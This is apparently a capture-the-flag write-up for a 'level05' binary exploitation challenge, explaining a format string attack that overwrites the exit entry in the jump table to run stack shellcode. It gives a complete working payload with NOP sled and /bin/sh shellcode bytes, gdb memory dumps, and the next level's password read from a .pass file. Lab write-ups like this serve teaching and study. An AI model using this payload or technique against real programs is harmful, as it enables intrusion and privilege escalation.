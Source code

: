 Ok so. The program takes a string from stdin, pass a lower algorithm on each bytes and then sends it to printf. It closes with exit. \
We want to override the address of the PLT of the exit function to jump somewhere. Fortunately, if we put a `NULL` character in our string, the program wont lower whats after. So we thought: lets do a shellcode and let exit be an address in our stack:
```shell
bash$ objdump -R ./level05
...
080497e0 R_386_JUMP_SLOT   exit
...

bash$ gdb ./level05

(gdb) b *main+200
Breakpoint 1 at 0x804850c

(gdb) r < <(python -c 'print "\x90" *100')
Breakpoint 1, 0x0804850c in main ()

(gdb) x/48wx $esp
0xffffd660:     0xffffd688      0x00000064      0xf7fcfac0      0xf7ec3af9
0xffffd670:     0xffffd6af      0xffffd6ae      0x00000000      0xffffffff
0xffffd680:     0xffffd734      0x00000000      0x90909090      0x90909090
0xffffd690:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd6a0:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd6b0:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd6c0:     0x90909090      0x90909090      0x90909090      0x90909090
|_ lets write this address so we dont struggle with stack offset
0xffffd6d0:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd6e0:     0x90909090      0x90909090      0x00909090      0x00000063
0xffffd6f0:     0xf7fceff4      0x00000000      0x00000000      0xf7e45513
0xffffd700:     0x00000001      0xffffd794      0xffffd79c      0xf7fd3000
0xffffd710:     0x00000000      0xffffd71c      0xffffd79c      0x00000000

(gdb) d br

(gdb) r < <(python -c 'print "\xe0\x97\x04\x08\xe2\x97\x04\x08" + "%54968d%10$hn" +  "%76095d%11$hn" + "\x00"*6 + "\x90"*33 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
...
2118 is executing new program: /bin/dash
...
```
Here we write in the PLT of exit the 2 lowest bytes of our stack adress (`0xd6c0`) and then we write the 2 strongest bytes of our stack adress (`0xffff`). We do that by computing (`0x1ffff - 0xd6c0`) to get the second number of bytes to write. We then align we some 0's and write a pool of nop, and then we write our shellcode.
```shell
bash$ python -c 'print "\xe0\x97\x04\x08\xe2\x97\x04\x08" + "%54968d%10$hn" +  "%76095d%11$hn" + "\x00"*6 + "\x90"*33 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"' > /tmp/exploit

# we need to keep stdin open
bash$ cat /tmp/exploit - | ./level5
...
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

